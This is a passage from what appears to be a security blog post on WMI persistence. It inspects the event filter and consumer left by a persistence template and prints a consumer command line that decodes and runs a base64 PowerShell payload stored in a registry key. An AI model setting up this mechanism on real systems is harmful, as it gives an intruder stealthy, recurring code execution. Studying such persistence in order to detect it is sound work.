 ## WMI Persistence Template by Matt G. 
We tweaked some of the parameters in the script to make sure the timer event launches every minute and that no cleanup is performed at the end. After launching it, we can inspect the newly created Event Consumers/Filters/Bindings as follows: 

**EventFilter**
{% highlight powershell%}
Get-WmiObject -Namespace root\subscription -Class __EventFilter
{% endhighlight %}

Result: 
{% highlight powershell%}
__GENUS          : 2
__CLASS          : __EventFilter
__SUPERCLASS     : __IndicationRelated
__DYNASTY        : __SystemClass
__RELPATH        : __EventFilter.Name="TimerTrigger"
__PROPERTY_COUNT : 6
__DERIVATION     : {__IndicationRelated, __SystemClass}
__SERVER         : W10B1
__NAMESPACE      : ROOT\subscription
__PATH           : \\W10B1\ROOT\subscription:__EventFilter.Name="TimerTrigger"
CreatorSID       : {1, 5, 0, 0...}
EventAccess      : 
EventNamespace   : root/cimv2
Name             : TimerTrigger
**Query            : SELECT * FROM __TimerEvent WHERE TimerID = 'PayloadTrigger'**
QueryLanguage    : WQL
PSComputerName   : W10B1
{% endhighlight %}

**EventConsumer**
{% highlight powershell%}
Get-WmiObject -Namespace root\subscription -Class __EventConsumer
{% endhighlight %}

Result: 
[snip]
{% highlight powershell%}
__GENUS               : 2
__CLASS               : CommandLineEventConsumer
__SUPERCLASS          : __EventConsumer
__DYNASTY             : __SystemClass
__RELPATH             : CommandLineEventConsumer.Name="ExecuteEvilPowerShell"
__PROPERTY_COUNT      : 27
__DERIVATION          : {__EventConsumer, __IndicationRelated, __SystemClass}
__SERVER              : W10B1
__NAMESPACE           : ROOT\subscription
__PATH                : \\W10B1\ROOT\subscription:CommandLineEventConsumer.Name="ExecuteEvilPowerShell"
**CommandLineTemplate   : powershell.exe -NoP -C "iex ([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String((Get-ItemProperty -Path HKLM:\SOFTWARE\PayloadKey -Name PayloadValue).PayloadValue)))"**
{% endhighlight %}


[^1]: Since Win 8 and Server 2012: http://windowsitpro.com/security/understanding-and-enabling-command-line-auditing
[^2]: EventCode 400 sample contents:
[^3]: EventCode 403 sample contents: